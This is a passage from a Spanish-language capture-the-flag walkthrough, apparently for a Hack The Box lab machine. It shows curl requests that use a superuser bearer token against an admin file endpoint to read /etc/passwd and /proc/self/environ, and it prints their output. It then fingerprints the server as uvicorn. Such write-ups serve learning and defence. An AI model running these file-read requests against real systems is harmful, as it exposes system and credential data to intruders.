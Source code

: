El resultado parseado es el siguiente:

```json
{
 "file":"root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin sshd:x:112:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin htb:x:1000:1000:htb:/home/htb:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false"
}
```

Podemos intentar leer el /proc/self/environ

```bash
❯ curl -X 'POST' \
  'http://10.10.11.161/api/v1/admin/file' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjc5MDcwMDQ5LCJpYXQiOjE2NzgzNzg4NDksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.xv1AsEd_3Q-Mz67kkvAT3XHy-x5XphoeqWpFqE0WbQU' \
  -H 'Content-Type: application/json' \
  -d '{
  "file": "/proc/self/environ"
}';echo
{

-   "file":"APP_MODULE=app.main:appPWD=/home/htb/uhcLOGNAME=htbPORT=80HOME=/home/htbLANG=C.UTF-8VIRTUAL_ENV=/home/htb/uhc/.venvINVOCATION_ID=60c6ab9404db41d49893ef2e13ef0ad9HOST=0.0.0.0USER=htbSHLVL=0PS1=(.venv) JOURNAL_STREAM=9:18003PATH=/home/htb/uhc/.venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binOLDPWD=/"

}
```

>  /proc/self/environ contiene variables de entorno en este caso tiene la ruta de la aplicación web.

"APP_MODULE=app.main" no indica que hay una carpeta app que contiene un archivo main.py, podemos saber que es .py porque la app revela en las cabeceras uvicorn

```bash
❯ curl -i http://10.10.11.161/api
HTTP/1.1 200 OK
date: Thu, 09 Mar 2023 17:00:25 GMT
server: uvicorn
```
